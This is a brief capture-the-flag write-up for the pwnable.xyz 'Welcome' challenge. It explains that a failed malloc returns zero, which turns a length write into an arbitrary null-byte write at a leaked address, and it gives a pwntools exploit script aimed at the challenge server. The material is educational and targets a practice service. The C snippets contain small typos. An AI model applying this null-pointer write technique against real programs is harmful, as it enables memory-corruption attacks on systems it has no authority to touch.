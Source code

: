 # Welcome

The challenge wants  me to modify the variable of an allocated  chunk to get the flag.

It first leaks an address which is the target chunk,  then asks for an input for my chunk.

Giving malloc a really large input makes it fail, returning 0.

Since the program hardcodes
```c 
*(my_chunk + len-1) = 0.
```

Now that my chunk is a zero pointer, and len is the address of the target chunk, the following line:

```c
(*BYTE) (my_chunk + len) =0;
```
sets exactly the target to 0

```py
from pwn import *

p = process('./challenge')
p = remote('svc.pwnable.xyz', 30000)

junnk = p.recvuntil(b'Leak: ')
leak = int(p.recvline().strip(), 16)

print(hex(leak))

leak+=1

p.sendline(str(leak))
p.sendafter(b'message: ', b'\x00')

p.interactive()
```